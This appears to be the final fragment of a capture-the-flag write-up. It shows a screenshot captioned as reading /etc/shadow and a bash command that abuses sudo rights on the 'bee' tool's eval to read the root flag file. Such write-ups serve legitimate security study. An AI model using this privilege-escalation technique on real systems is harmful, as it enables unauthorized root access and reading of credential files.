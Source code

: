     <img src="assets/img/writeupImgs/dog/Captura de pantalla 2025-06-08 115015.png" width="700"
    alt="Reading /etc/shadow">
</p>

To read the root flag:
```bash
sudo bee --root=/var/www/html eval 'echo file_get_contents("/root/root.txt");'
```

Done!!
